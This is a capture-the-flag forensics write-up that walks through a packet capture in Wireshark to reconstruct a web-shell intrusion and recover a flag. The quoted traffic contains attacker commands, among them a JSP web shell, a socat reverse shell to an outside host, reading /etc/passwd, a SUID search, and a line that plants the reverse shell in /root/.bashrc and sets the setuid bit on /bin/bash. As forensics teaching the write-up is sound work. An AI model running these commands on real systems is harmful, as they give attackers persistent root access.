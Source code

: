 # Forensics 1: Wrong Spooky Season
> "I told them it was too soon and in the wrong season to deploy such a website, but they assured me that theming it properly would be enough to stop the ghosts from haunting us. I was wrong." Now there is an internal breach in the `Spooky Network` and you need to find out what happened. Analyze the the network traffic and find how the scary ghosts got in and what they did.


#### Difficulty: easy

We are given a zip file that contains `capture.pcap`. Opening it with Wireshark shows us about 505 lines.

Scrolling through the lines, we see some HTTP requests. As it's possible that there are some traces in the assets, I exported them using Wireshark: `File -> Export Objects -> HTTP`.
In the export screen we can preview some sp00ky images but near the bottom we can see that there's an entry for `e4d1c32a56ca15b3.jsp%3fcmd=whoami`. 

Suspecting that it may have been cut off, I exited the dialog and applied an `http` filter. Now we can more clearly see the suspicious lines:

```
426	36.907155	192.168.1.180	192.168.1.166	HTTP	242	GET /e4d1c32a56ca15b3.jsp?cmd=id HTTP/1.1 
428	36.910876	192.168.1.166	192.168.1.180	HTTP	2363	HTTP/1.1 200   (text/html)
436	47.456263	192.168.1.180	192.168.1.166	HTTP	266	GET /e4d1c32a56ca15b3.jsp?cmd=apt%20-y%20install%20socat HTTP/1.1 
456	49.374819	192.168.1.166	192.168.1.180	HTTP	4518	HTTP/1.1 200   (text/html)
464	63.222005	192.168.1.180	192.168.1.166	HTTP	282	GET /e4d1c32a56ca15b3.jsp?cmd=socat%20TCP:192.168.1.180:1337%20EXEC:bash HTTP/1.1 
```

Based on that last line, it seems like the network had been reverse shelled. I then applied a filter such that only packets going to 1337 were shown: `tcp.port == 1337`.
I then right-clicked on the first line and followed the TCP stream, which showed me the following


<details><summary>TCP Stream</summary>

```
id
uid=0(root) gid=0(root) groups=0(root)
groups
root
uname -r
5.18.0-kali7-amd64
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
messagebus:x:101:102::/nonexistent:/usr/sbin/nologin
find / -perm -u=s -type f 2>/dev/null
/bin/su
/bin/umount
/bin/mount
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/chsh
echo 'socat TCP:192.168.1.180:1337 EXEC:sh' > /root/.bashrc && echo "==gC9FSI5tGMwA3cfRjd0o2Xz0GNjNjYfR3c1p2Xn5WMyBXNfRjd0o2eCRFS" | rev > /dev/null && chmod +s /bin/bash
ls -lha 
total 20K
drwxr-xr-x 1 root root 4.0K Oct 10 17:28 .
drwxr-xr-x 1 root root 4.0K Oct 10 17:28 ..
-rwxrwx--- 1 root root 1.8K Oct  8 00:04 pom.xml
drwxr-xr-x 3 root root 4.0K Oct 10 17:27 src
drwxr-xr-x 1 root root 4.0K Oct 10 17:28 target
```
</details>


From here we can see the reversed base64 payload, which I reversed back and decoded, giving me the flag:

```
echo "==gC9FSI5tGMwA3cfRjd0o2Xz0GNjNjYfR3c1p2Xn5WMyBXNfRjd0o2eCRFS" | rev | base64 -d
HTB{j4v4_5pr1ng_just_b3c4m3_j4v4_sp00ky!!}
```